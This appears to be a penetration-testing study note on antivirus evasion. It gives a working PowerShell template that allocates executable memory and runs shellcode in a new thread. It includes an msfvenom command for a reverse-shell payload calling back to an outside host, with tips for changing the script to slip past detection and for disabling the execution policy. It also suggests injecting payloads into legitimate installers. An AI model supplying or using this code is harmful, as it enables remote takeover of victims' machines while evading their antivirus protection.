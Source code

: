 ```yaml
---
title: Antivirus Evasion
---
```

# AV Evasion with Thread Injection
- We can use `powershell` to implement the in-memory injection process with a script
- AV in general have a harder time detecting scripts as it is not executable code
- The payload to be added to the below template can be generated with `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc`

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
- If AV is still detecting this as malicious, we can try to change variables, comments or the logic of the script. 
- If we are unable to run this because of powershell execution policy, we can try to alter it
```powershell
Get-ExecutionPolicy -Scope CurrentUser

Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```
- Tools like `shellter` or `veil` which can be used to automate this and inject payloads into an existing PE (i.e Spotify Installer)